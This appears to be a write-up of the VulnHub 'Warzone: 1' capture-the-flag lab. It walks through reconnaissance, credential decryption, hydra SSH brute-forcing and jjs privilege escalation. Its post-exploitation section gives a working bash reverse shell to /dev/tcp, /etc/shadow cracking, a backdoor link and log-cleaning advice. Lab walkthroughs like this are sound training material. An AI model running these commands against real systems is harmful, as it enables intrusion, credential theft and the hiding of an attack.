







# Warzone: 1

[Machine](https://www.vulnhub.com/entry/warzone-1,589/ "https://www.vulnhub.com/entry/warzone-1,589/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.226 -oA ports
```
#### Services scanning:
```
nmap -sV -O -T4 -p21,22,5000 192.168.88.226 -oA services
```

### ftp

On ftp we have an anonymous login. Also, we can download all files in the pub directory.
There are one note.txt and one jar file. The note says that jar file is used to encrypt the password.
```
jar xf warzone-encrypt.jar
```
After extraction:

crypto/

	AES.class

encrypt/

	Main.class

Other/

	Obfuscated.class 

I used java decompiler to get the source code.

In Main it just encrypts the password with AES from AES source. But AES has interesting methods...



Obfuscated:



Thus, secrets are not secrets anymore :)
We can easily decrypt the passwords, but need some java coding, just a little.
By the way, what passwords need to be decrypted???

### port 5000 or web

#### go to link:

Nothing interesting there, but in page source you can see next:
```
<!--GA DIE UHCEETASTTRNL-->
```
From main page, we see that it can be some cipher. [cipher identifier tool](https://www.boxentriq.com/code-breaking/cipher-identifier#railfence-cipher "https://www.boxentriq.com/code-breaking/cipher-identifier#railfence-cipher")

It is a `Railfence Cipher`. Decrypted:
```
GET AUTH CREDENTIALS
```

#### dirb:
```
dirb http://192.168.88.226:5000 /usr/share/wordlists/dirb/big.txt -o dirs
```

From `dirb` we got a path /console.



But we need a PIN that shows on server side...

## Threat modelling

Okay. We have a java source code of encryption, we have a weird decrypted message with the words "credentials" and "auth". So it is definitely what we need. Another general thing is services versions! Maybe we will have a CVE on it.

## Vulnerability analysis

### vsftd version:

Not vulnerable.

### ssh version:

Vulnerable, but need to be authenticated.

### Werkzeug version:

Vulnerable. For me it doesn't work (`/usr/share/exploitdb/exploits/multiple/remote/43905.py`).

### Credentials leakage:

The first vulnerability here is the comment within page source, i think, which leads right to credentials leakage. The second vulnerability is misconfiguration of ftp server which allows us to anonymously login and download files. I thought for a long time what to do with decrypted message. But in the end, i found a way. It is a url `http://192.168.88.226:5000/get/auth/credentials`. There you will get credentials, they are encrypted.

## Exploitation

### Decryption tool creating:

I decide to write decryption tool in jar format such as `warzone-encrypt.jar`.

So, i copied AES, Obfuscated classes from decompiler, and fixed the Main class a little.

[code here](decryption)
 
Also, i understood about java packages, how to compile java code and how to create jar files.

To create .class file from .java:
```
javac source.java
```
To create package with .class from .java:
```
javac -d . source.java
```
To create a jar file we need a manifest in which need to specify main class:
```
Manifest-Version: 1.0
Main-Class: decrypt.Main
Class-Path: .
```
To create jar:
```
jar cmvf warzone-decrypt.jar crypto/AES.class Other/Obfuscated.class decrypt/Main.class --manifest=META-INF/MANIFEST.MF
```

### Get access:

Now, we have decrypted passwords and logins. Don't forget about open ssh port. I used `hydra` to bruteforce ssh login.
```
hydra -L logins.txt -P passwords.txt -o found.txt 192.168.88.226 ssh
```
FOUND LOGIN FOR commando! But this user doesn't have user.txt...

### Switch user:

Just do `ls /home` or `cat /etc/passwd` to see other users. It is a `captain` user!
Go to the home directory of the user and we see there within `Desktop` file 'user.txt' and interesting folder '.crypt'.



readme.txt says that root creates a tool to encrypt the password for the account. Source code of encrypt.py:
```
from simplecrypt import encrypt, decrypt
import os
import base64
key = 'sekret'
password = '<REMOVED FOR SECURITY REASON>'
ciphertext = encrypt(key,password)
encoded = base64.b64encode(ciphertext)
print(encoded)
```
File .c has an encrypted password for captain. My script to decrypt it:
```
from simplecrypt import encrypt, decrypt
import os
import base64
key = 'sekret'
encoded = open('/home/captain/Desktop/.crypt/.c', 'rb').read()[2:-2]
password = base64.b64decode(encoded)
plaintext = decrypt(key, password)
print(plaintext)
```
Now, we have a captain and user.txt.

## Post exploitation

Time to do privilege escalation!

### sudo -l


I didn't know about jjs before...

### jjs

jjs - The Nashorn JavaScript script engine. Next, i understood that i can execute some sort of thing on JavaScript.
The main thing here is that you can write a script on JS use shebang and execute it in jjs with `jjs script.js`. I started to search how to get a shell from it and i found next solution:

#### GLOBAL OBJECTS!!!
With shell scripting features enabled, Nashorn defines several global objects.
This global function `$EXEC` launches processes to run commands.
```
$EXEC(your_command_here)
```

#### Test.js:
```
#!/usr/bin/jjs

print($EXEC("whoami"))
```


Yeah, it works.

#### shell.js:
Start local server on port 4444:
```
nc -lnvp 4444
```
Reverse shell from target to our local server on port 4444:
```
bash -i >& /dev/tcp/192.168.88.225/4444 0>&1
```
Final script:
```
#!/usr/bin/jjs

$EXEC("bash -c 'bash -i >& /dev/tcp/192.168.88.225/4444 0>&1'")
```


Now, we also have a root.txt.

### Get normal shell for root

Target:
```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
```
Local:
```
stty raw -echo
f + g + Enter
```

### Get root password

Target:
```
cat /etc/shadow
```
Local:
```
hashcat -a 0 -m 1800 root.hash your_wordlist
```

### Backdoor

I left the link below how to create backdoors...

### Logs

U need to clean next logs:
* auth.log - login attempts.
* vsftpd.log - vsftpd connect and operations with files.
* daemon.log - logs about your actions on port 5000, HTTP GET, POST, etc.

## Sources

### jjs

[wiki](https://en.wikipedia.org/wiki/Nashorn_%28JavaScript_engine%29)

[shebang](https://docs.oracle.com/javase/8/docs/technotes/guides/scripting/nashorn/shell.html "https://docs.oracle.com/javase/8/docs/technotes/guides/scripting/nashorn/shell.html")

[doc about jjs](https://docs.oracle.com/en/java/javase/11/tools/jjs.html "https://docs.oracle.com/en/java/javase/11/tools/jjs.html")

### jar

[packages](https://www.tutorialspoint.com/java/java_packages.htm "https://www.tutorialspoint.com/java/java_packages.htm")

[jar](https://docs.oracle.com/javase/tutorial/deployment/jar/basicsindex.html "https://docs.oracle.com/javase/tutorial/deployment/jar/basicsindex.html")

[manifest](https://docs.oracle.com/javase/tutorial/deployment/jar/manifestindex.html "https://docs.oracle.com/javase/tutorial/deployment/jar/manifestindex.html")

### reverse shell recall

[pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet")

### Backdoors

[9 ways to backdoor a Linux](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c "https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c")
